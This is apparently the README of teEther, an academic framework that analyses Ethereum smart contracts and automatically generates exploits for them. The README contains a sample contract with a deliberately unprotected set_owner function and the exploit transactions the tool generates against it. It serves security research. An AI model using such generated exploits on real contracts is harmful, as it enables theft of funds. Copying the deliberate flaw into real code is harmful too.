 # teEther - Analysis and automatic exploitation framework for Ethereum smart contracts

teEther is an analysis tool for Ethereum smart contracts.
It can
* [disassemble EVM bytecode](./teether/cfg/disassembly.py#L13)
* [perform backward slicing](./teether/slicing.py#L123)
* [execute EVM bytecode](./teether/evm/evm.py#L31)
* [execute EVM bytecode **symbolically**](./teether/evm/evm.py#L290)
* [plot nice CFGs](./bin/plot_cfg.py)
* [create exploits for vulnerable smart contracts](./bin/gen_exploit.py)

## Quickstart

1. Install `teEther`
```bash
python setup.py install
```

2. Write your vulnerable smart contract
```solidity
pragma solidity ^0.4.0;

contract Test{

    struct Transaction{
        address to;
        uint amount;
    }

    mapping (bytes32 => Transaction) transactions;

    address owner;
    
    function set_owner(address new_owner){
        owner = new_owner;
    }
    
    function new_transaction(address to, uint amount) returns (bytes32){
        bytes32 token = sha3(to, amount);
        Transaction storage t = transactions[token];
        t.to = to;
        t.amount += amount;
        return token;
    }
    
    function approve(bytes32 token){
        require(owner == msg.sender);
        Transaction storage t = transactions[token];
        t.to.transfer(t.amount);
        delete transactions[token];
    }
    
}
```

3. Compile your contract
```
$ solc --bin test.sol | tail -n1 > test.code
```

4. Extract the deployed contract code
```
$ python scripts/extract_contract_code.py test.code > test.contract.code
```

5. Generate an exploit
```
$ python scripts/gen_exploit.py test.contract.code 0x1234 0x1000 +1000

...
eth.sendTransaction({from:"0x0000000000000000000000000000000000001234", data:"0x7cb97b2b0000000000000000000000000000000000000000000000000000000000001234", to:"0x4000000000000000000000000000000000000000", gasPrice:0})
eth.sendTransaction({from:"0x0000000000000000000000000000000000001234", data:"0x0129ab2700000000000000000000000000000000000000000000000000000000000012340000000000000000000000000000000000000000000000016bc75e2d63100103", to:"0x4000000000000000000000000000000000000000", gasPrice:0})
eth.sendTransaction({from:"0x0000000000000000000000000000000000001234", data:"0xa53a1adfce9e2ef9fe2568f35b22f98bb749862a13e0abd291c6ba4967016d629412829d", to:"0x4000000000000000000000000000000000000000", gasPrice:0})
```

## Academia

Our paper [**teEther: Gnawing at Ethereum to Automatically Exploit Smart Contracts**](https://publications.cispa.saarland/2612/1/main.pdf) was published at the [27th USENIX Security Symposium (Usenix Security 18)](https://www.usenix.org/conference/usenixsecurity18/presentation/krupp) ([slides](https://www.usenix.org/sites/default/files/conference/protected-files/security18_slides_krupp.pdf), [video](https://www.youtube.com/watch?v=mW4jQzPVP_A)).

```bibtex
@inproceedings{teEther2018,
          author = {Johannes Krupp and Christian Rossow},
       publisher = {USENIX Association},
       booktitle = {27th USENIX Security Symposium (USENIX Security 18)},
            year = {2018},
           title = {{teEther: Gnawing at Ethereum to Automatically Exploit Smart Contracts}},
             url = {https://publications.cispa.saarland/2612/},
}
```